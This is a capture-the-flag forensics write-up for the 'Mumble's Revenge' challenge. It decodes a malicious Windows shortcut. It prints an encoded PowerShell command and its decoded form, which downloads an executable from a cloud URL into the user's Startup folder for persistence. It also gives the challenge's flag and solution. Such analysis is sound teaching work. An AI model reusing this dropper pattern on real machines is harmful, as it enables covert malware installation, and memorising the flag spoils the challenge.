

# Challenge

**Name:** Mumble's Revenge

**Category:** Forensics

**Difficulty:** Hard

**Flag:** `UWA{h4Ck3D_bY_tH3_l1Nk3d_cH41N!!1one}`

---

## Description

Mumble got really annoyed by Pingu constantly spamming malicious documents and decided to phish Pingu back with their own malware.

Now Pingu is losing his mind because his computer spams 100s of message boxes whenever he turns on his computer.

*Can you reverse engineer Mumble's malware and read the contents of the message box that is shown?*

**Important**

Your antivirus software will probably flag either the **ImportantForPingu.zip** or **ClickMePingu.lnk** as malware and remove it. You will need exclude your antivirus software from removing those files.

**DO NOT DOWNLOAD ANY FILES ONTO UWA MANAGED COMPUTERS! THE UWA CYBER SECURITY TEAM WILL GET VERY ANGRY AT YOU FOR ALL OF THE ALERTS YOU WILL CAUSE!**

---

## Solution

There are two parts to this challenge, the first part is analysing the malicious short cut that Mumble used as the initial access into Pingu's computer. First analyse the `.lnk` file by using a hex viewer. Below I just used `xxd`.



As you can see above, PowerShell is executed that runs commands from a base64 encoded block. However, on Windows characters are 16 bits long (UTF16) so we need to find a way to extract the base64 encoded block. The simplest way is to simply use the `cat` command to print the contents of `ClickMePingu.lnk`.


*base64 encoded payload*
```
aQBmACgAJABlAG4AdgA6AFUAcwBlAHIATgBhAG0AZQAgAC0AZQBxACAAIgBwAGkAbgBnAHUAIgApAHsASQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAAaAB0AHQAcABzADoALwAvAHMAdABvAHIAYQBnAGUALgBnAG8AbwBnAGwAZQBhAHAAaQBzAC4AYwBvAG0ALwBtAHUAbQBiAGwAZQBzAHIAZQB2AGUAbgBnAGUALQBjAGkAdABzADEAMAAwADMALwBwAGkAbgBnAHUALQBwAGwAZQBhAHMAZQAtAHMAdABvAHAALQB0AHIAeQBpAG4AZwAtAHQAbwAtAHAAaABpAHMAaAAtAG0AZQAtAHAAbAB6AC8ATQB1AG0AYgBsAGUAcwBSAGUAdgBlAG4AZwBlAC4AZQB4AGUAIAAtAG8AdQB0AGYAaQBsAGUAIAAiAEMAOgBcAFUAcwBlAHIAcwBcACQAZQBuAHYAOgBVAHMAZQByAE4AYQBtAGUAXABBAHAAcABEAGEAdABhAFwAUgBvAGEAbQBpAG4AZwBcAE0AaQBjAHIAbwBzAG8AZgB0AFwAVwBpAG4AZABvAHcAcwBcAFMAdABhAHIAdAAgAE0AZQBuAHUAXABQAHIAbwBnAHIAYQBtAHMAXABTAHQAYQByAHQAdQBwAFwAcwB0AGEAcgB0AHUAcAAuAGUAeABlACIAOwB9AA==
```

We can decode the base64 command on CyberChef to get the following PowerShell code. Once again we need to remove convert from UTF16 to UTF8 character encoding, that can simply be done on CyberChef by removing null bytes (`\x00`).

[Cyber Chef Recipe](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)Find_/_Replace(%7B'option':'Extended%20(%5C%5Cn,%20%5C%5Ct,%20%5C%5Cx...)','string':'%5C%5C0'%7D,'',true,false,true,false)&input=YVFCbUFDZ0FKQUJsQUc0QWRnQTZBRlVBY3dCbEFISUFUZ0JoQUcwQVpRQWdBQzBBWlFCeEFDQUFJZ0J3QUdrQWJnQm5BSFVBSWdBcEFIc0FTUUJ1QUhZQWJ3QnJBR1VBTFFCWEFHVUFZZ0JTQUdVQWNRQjFBR1VBY3dCMEFDQUFhQUIwQUhRQWNBQnpBRG9BTHdBdkFITUFkQUJ2QUhJQVlRQm5BR1VBTGdCbkFHOEFid0JuQUd3QVpRQmhBSEFBYVFCekFDNEFZd0J2QUcwQUx3QnRBSFVBYlFCaUFHd0FaUUJ6QUhJQVpRQjJBR1VBYmdCbkFHVUFMUUJqQUdrQWRBQnpBREVBTUFBd0FETUFMd0J3QUdrQWJnQm5BSFVBTFFCd0FHd0FaUUJoQUhNQVpRQXRBSE1BZEFCdkFIQUFMUUIwQUhJQWVRQnBBRzRBWndBdEFIUUFid0F0QUhBQWFBQnBBSE1BYUFBdEFHMEFaUUF0QUhBQWJBQjZBQzhBVFFCMUFHMEFZZ0JzQUdVQWN3QlNBR1VBZGdCbEFHNEFad0JsQUM0QVpRQjRBR1VBSUFBdEFHOEFkUUIwQUdZQWFRQnNBR1VBSUFBaUFFTUFPZ0JjQUZVQWN3QmxBSElBY3dCY0FDUUFaUUJ1QUhZQU9nQlZBSE1BWlFCeUFFNEFZUUJ0QUdVQVhBQkJBSEFBY0FCRUFHRUFkQUJoQUZ3QVVnQnZBR0VBYlFCcEFHNEFad0JjQUUwQWFRQmpBSElBYndCekFHOEFaZ0IwQUZ3QVZ3QnBBRzRBWkFCdkFIY0Fjd0JjQUZNQWRBQmhBSElBZEFBZ0FFMEFaUUJ1QUhVQVhBQlFBSElBYndCbkFISUFZUUJ0QUhNQVhBQlRBSFFBWVFCeUFIUUFkUUJ3QUZ3QWN3QjBBR0VBY2dCMEFIVUFjQUF1QUdVQWVBQmxBQ0lBT3dCOUFBPT0)

*Decoded PowerShell commands*
```powershell
if($env:UserName -eq "pingu"){Invoke-WebRequest https://storage.googleapis.com/mumblesrevenge-cits1003/pingu-please-stop-trying-to-phish-me-plz/MumblesRevenge.exe -outfile "C:\Users\$env:UserName\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\startup.exe";}
```

From the above PowerShell code, we can see it downloads an executable file from a Google Storage bucket (https://storage.googleapis.com/mumblesrevenge-cits1003/pingu-please-stop-trying-to-phish-me-plz/MumblesRevenge.exe). Downloading the executable file and just using `cat` we can see two base64 encoded strings. The proper way is using a tool like DotPeek to reverse engineer the .NET executable, but I am running out of time to include that in this solution.


```
UGluZ3Ugc3RvcCBzcGFtbWluZyBtZSB3aXRoIG1hbGljaW91cyBkb2N1bWVudHMgdHJ5aW5nIHRvIGhhY2sgbWUgYWdhaW4hDQpXaGVuIHlvdSBzdG9wIEkgd2lsbCB0ZWxsIHlvdSBob3cgdG8gcmVtb3ZlIHRoZXNlIHBvcCB1cHMgdGhhdCBvY2N1ciBldmVyeSB0aW1lIHlvdSBsb2cgaW4uDQoNCkZyb20gTXVtYmxlIChVV0F7aDRDazNEX2JZX3RIM19sMU5rM2RfY0g0MU4hITFvbmV9KQ==
```

Decoding on Cyber Chef again to get the flag.

[Cyber Chef recipe](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)Find_/_Replace(%7B'option':'Extended%20(%5C%5Cn,%20%5C%5Ct,%20%5C%5Cx...)','string':'%5C%5C0'%7D,'',true,false,true,false)&input=VUdsdVozVWdjM1J2Y0NCemNHRnRiV2x1WnlCdFpTQjNhWFJvSUcxaGJHbGphVzkxY3lCa2IyTjFiV1Z1ZEhNZ2RISjVhVzVuSUhSdklHaGhZMnNnYldVZ1lXZGhhVzRoRFFwWGFHVnVJSGx2ZFNCemRHOXdJRWtnZDJsc2JDQjBaV3hzSUhsdmRTQm9iM2NnZEc4Z2NtVnRiM1psSUhSb1pYTmxJSEJ2Y0NCMWNITWdkR2hoZENCdlkyTjFjaUJsZG1WeWVTQjBhVzFsSUhsdmRTQnNiMmNnYVc0dURRb05Da1p5YjIwZ1RYVnRZbXhsSUNoVlYwRjdhRFJEYXpORVgySlpYM1JJTTE5c01VNXJNMlJmWTBnME1VNGhJVEZ2Ym1WOUtRPT0)

*Decoded message*
```
Pingu stop spamming me with malicious documents trying to hack me again!
When you stop I will tell you how to remove these pop ups that occur every time you log in.

From Mumble (UWA{h4Ck3D_bY_tH3_l1Nk3d_cH41N!!1one})
```